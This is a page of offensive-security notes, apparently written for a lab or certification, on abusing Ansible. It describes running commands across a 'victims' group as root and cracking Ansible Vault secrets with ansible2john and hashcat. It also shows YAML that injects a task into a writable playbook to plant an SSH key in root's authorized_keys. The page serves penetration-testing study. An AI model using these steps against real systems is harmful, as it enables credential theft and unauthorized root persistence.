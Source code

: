 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
                
<style media="screen">
  div.highlighter-rouge {
    position: relative;
  }

  div.highlighter-rouge button {
    display: inline-block;
    outline: 0;
    cursor: pointer;
    border: 2px solid #000;
    border-radius: 3px;
    color: #fff;
    background: #000;
    font-size: 20px;
    font-weight: 600;
    line-height: 28px;
    padding: 12px 20px;
    text-align:center;
    transition-duration: .15s;
    transition-property: all;
    transition-timing-function: cubic-bezier(.4,0,.2,1);
    :hover{
        color: #000;
        background: red;
           }
    position: absolute;
    top: 0rem;
    left: 800px;
  }
</style>

<!--     
    
-->

<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = "COPY";
      copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      // insert a copy button
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = "COPIED";
        copyCodeButton.classList.add("btn-success");
        copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "COPY";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.classList.add("btn-outline-primary");
        }, 2000);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
{% highlight shell %}
ansible victims -a "whoami"
{% endhighlight %}
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
{% highlight yaml %}
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
{% endhighlight %}
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
{% highlight yaml %}
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
{% endhighlight %}
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
{% highlight shell %}
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
{% endhighlight %}
to then decrypt the vault like:
{% highlight shell %}
cat pw.txt | ansible-vault decrypt
{% endhighlight %}
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
{% highlight yaml %}
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
{% endhighlight %}
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
